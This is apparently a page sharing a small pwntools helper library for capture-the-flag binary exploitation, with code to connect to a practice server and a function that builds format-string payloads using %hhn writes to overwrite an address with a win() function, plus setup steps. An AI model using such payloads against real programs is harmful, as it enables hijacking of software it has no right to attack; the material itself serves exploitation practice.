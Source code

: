 <style>#downloads { display: none !important; }</style>

```python
from pwn import *

global p
global elf

def start(prog, args, port=None, gdb_cmd=None):
    prog = './' + prog

    context.arch = 'i386'
    context.terminal = ['urxvtc', '-e', 'sh', '-c']

    if args.REMOTE:
        p = remote('plsdonthaq.me', port)
        elf = ELF(prog)

    elif args.GDB:
        p = gdb.debug(prog, gdb_cmd) 
        elf = ELF(prog)

    else:
        p = process(prog)
        elf = p.elf

    return p, elf

def grab(p, start, end, drop=False):
    p.recvuntil(start)
    return p.recvuntil(end, drop)

def pack(msg):
    print(bytes(msg, 'utf-8'))
    return bytes(msg, 'utf-8')

# overwrites the address at target() with win().
# offset specifies which stack variable you control %{target}$n 
# padding specifies required padding to align the input in the stack variable (one of [0,1,2,3])
def fmtstr_build(win, target, offset, padding):
    payload = b"A" * padding
    payload += p32(target + 0) + p32(target + 1) + p32(target + 2) + p32(target + 3)
    payload += f"%{240 - padding}c".encode()

    for i in range(4):
        byte = win & 0xff
        win >>= 8
        if (byte == 0):
            payload += f"%{offset + i}$hhn".encode()
        else:
            payload += f"%{byte}c%{offset + i}$hhn%{256 - byte}c".encode()

    return payload
```

Then add the folder the lib is stored into your python path:
```bash
export PYTHONPATH="$PYTHONPATH:/folder/location/"
```
You can either run this every time you open a new terminal, or add it to your ~/.bashrc or ~/.zshrc and it will auto-run it everytime.

Finally, you can include this library into your programs with
```python
from lib import *
```